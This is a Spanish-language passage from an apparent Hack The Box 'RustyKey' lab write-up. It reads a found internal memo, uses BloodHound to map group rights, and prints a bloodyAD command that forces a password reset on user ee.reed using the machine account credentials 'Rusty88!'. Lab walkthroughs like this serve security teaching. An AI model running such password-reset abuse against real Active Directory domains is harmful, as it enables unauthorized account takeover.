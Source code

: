 Ahora si nos vamos a nuestra maquina atacante, veremos que esta nuestro archivo `PDF` vamos abrirlo a ver que contiene.

```shell
open internal.pdf
```

Info:

```
Internal Memo
From: bb.morgan@rustykey.htb
To: support-team@rustykey.htb
Subject: Support Group - Archiving Tool Access
Date: Mon, 10 Mar 2025 14:35:18 +0100
Hey team,
As part of the new Support utilities rollout, extended access has been temporarily granted to allow
testing and troubleshooting of file archiving features across shared workstations.
This is mainly to help streamline ticket resolution related to extraction/compression issues reported
by the Finance and IT teams. Some newer systems handle context menu actions differently, so
registry-level adjustments are expected during this phase.
A few notes:
- Please avoid making unrelated changes to system components while this access is active.
- This permission change is logged and will be rolled back once the archiving utility is confirmed
stable in all environments.
- Let DevOps know if you encounter access errors or missing shell actions.
Thanks,
BB Morgan
IT Department
Page 1
```

Esto significa que el grupo `SUPPORT` tiene el derecho de modificar el registro y puede probar funciones relacionadas con la compresión/descompresión.

Si investigamos este `grupo` en `BloodHound` veremos lo siguiente:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-10-15 131116.png" alt=""><figcaption></figcaption></figure>

Vemos que el usuario `EE.REED` pertenece a dicho grupo y recordemos que desde el usuario `IT-COMPUTER3` perteneciendo al grupo de `HELPDESK` podemos forzar le cambio de contraseña a dicho usuario, por lo que vamos ha realizar lo siguiente.

```shell
ntpdate rustykey.htb ; python3 bloodyAD.py -k --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' set password ee.reed 'P@ssw0rd!'
```
